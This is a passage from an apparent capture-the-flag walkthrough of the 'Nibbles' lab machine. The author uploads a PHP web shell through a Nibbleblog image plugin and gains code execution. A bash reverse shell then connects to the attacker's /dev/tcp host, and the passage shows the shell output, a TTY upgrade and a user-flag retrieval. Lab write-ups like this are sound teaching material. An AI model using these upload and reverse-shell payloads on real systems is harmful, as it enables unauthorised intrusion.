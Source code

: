with this information, we can now configure our exploit to get a foothold.

using metasploit to execute the file upload would be feasible (and worth a try at a later point) i went ahead and followed the guide. looking around the admin panel we stumble across a plugin called My Image which allows us to upload files. here, we can try to upload a php script to see if we can get remote code execution. i created `do.php` locally with the content of `<?php echo system('id'); ?>` and uploaded it. this results in a bunch of warnings in the web interface, but chances are that the file was indeed uploaded. going back to the directories we have discovered earlier, we can find a `image.php` file in `http://10.10.10.75/nibbleblog/content/private/plugins/my_image`. open it an notice how we have established remote code execution. the server responds with

```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler) uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

now, let's update our script to establish a remote shell. i edit `do.php` to contain:

```
<?php echo system('bash -c \'bash -i >& /dev/tcp/10.10.14.34/1337 0>&1\''); ?>
```

then listen for incoming connections with

```
nc -lnvp 1337
```

upload the file and open it in the browser or curl it:

```
listening on [any] 1337 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.75] 58540
bash: cannot set terminal process group (1372): Inappropriate ioctl for device
bash: no job control in this shell
<ml/nibbleblog/content/private/plugins/my_image$ whoami
nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$
```

there we go. let's further enumerate! the goal is to achieve privilege escalation!

but first, let's upgrade our shell to a full tty (learn more at https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/):

`$ python -c 'import pty; pty.spawn("/bin/bash")'`

this does not work, as python appears to be missing from the system. `which python3`, however, reveals that python 3 is installed and we can try to run the same command with python 3, instead:

`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`

tadaaa! now, let's navigate to the users home directory and poke around. we find a `user.txt` which contains the user flag!

there is also a file called `personal.zip`. i first moved it to the image directory where the webserver uploaded my php file to, and then downloaded it locally through the browser, for documentation purposes. obviously, it much easier to simply unzip it on the target machine with `unzip personal.zip`. inside, there is a script called `monitor.sh`.
